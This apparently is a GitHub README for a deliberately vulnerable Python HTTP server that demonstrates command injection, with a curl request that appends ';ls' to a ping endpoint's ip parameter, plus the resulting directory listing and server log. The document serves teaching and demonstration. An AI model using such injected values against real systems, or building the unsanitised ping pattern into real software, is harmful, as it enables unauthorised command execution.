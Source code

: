 # rce-endpoint
Simple python http server to demonstrate RCE vulnerabilities.

### Run
```
lomaha@ping-pong % python3 main.py -a=0.0.0.0 -p=80
```
### Use
#### Client side:
```
lomaha@rce-endpoint % curl -G "http://127.0.0.1/ping?ip=8.8.8.8;ls"

b'PING 8.8.8.8 (8.8.8.8): 56 data bytes\n64 bytes from 8.8.8.8: icmp_seq=0 ttl=111 time=5.806 ms\n64 bytes from 8.8.8.8: icmp_seq=1 ttl=111 time=7.035 ms\n64 bytes from 8.8.8.8: icmp_seq=2 ttl=111 time=17.179 ms\n\n--- 8.8.8.8 ping statistics ---\n3 packets transmitted, 3 packets received, 0.0% packet loss\nround-trip min/avg/max/stddev = 5.806/10.007/17.179/5.096 ms\n.git\nREADME.md\nmain.py\n'
```
#### Server side:
```
Server started http://127.0.0.1:80
127.0.0.1 - - [25/Dec/2021 19:20:31] "GET /ping?ip=8.8.8.8;ls HTTP/1.1" 200 -
path: '/ping'
query_params: 'ip'
quer_value: '8.8.8.8;ls'
```
